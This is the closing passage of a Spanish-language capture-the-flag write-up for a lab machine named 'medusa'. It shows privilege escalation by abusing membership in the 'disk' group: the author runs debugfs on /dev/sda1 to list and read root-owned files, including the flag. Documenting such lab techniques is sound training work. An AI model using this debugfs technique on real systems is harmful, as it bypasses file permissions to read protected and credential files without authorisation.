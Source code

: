 ~~~bash
spectre@medusa:~$ id
uid=1000(spectre) gid=1000(spectre) groups=1000(spectre),6(disk),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev)
~~~

Como podemos ver, pertenecemos al grupo *disk*, lo que nos permite utilizar *debugfs* para poder acceder a todo el disco. De esta forma, vamos a ver cómo se llama la partición y acto seguido intentar leer la flag.

~~~bash
spectre@medusa:~$ df -h
Filesystem      Size  Used Avail Use% Mounted on
/dev/sda1       6.9G  2.6G  4.0G  39% /
udev            471M     0  471M   0% /dev
tmpfs           489M     0  489M   0% /dev/shm
tmpfs            98M  492K   98M   1% /run
tmpfs           5.0M     0  5.0M   0% /run/lock
tmpfs            98M     0   98M   0% /run/user/1000
spectre@medusa:~$ debugfs /dev/sda1
debugfs 1.46.2 (28-Feb-2021)
debugfs:  cd /root
debugfs:  ls 
WARNING: terminal is not fully functional
-  (press RETURN) 129800  (12) .    2  (12) ..    129995  (16) .profile   
 139363  (16) .bashrc    139354  (16) .local    139567  (24) .bash_history   
 139361  (20) .rO0t.txt    139571  (3968) .selected_editor   
(END)(END)(END)...skipping...
debugfs:  cat .rO0t.txt
congrats hacker :)
~~~

Con esto terminamos la máquina, con el write-up más largo hasta la fecha. Dar las gracias a **noname** por crear la máquina, me ha parecido divertida, con mucha enumeración. Nos vemos en la siguiente.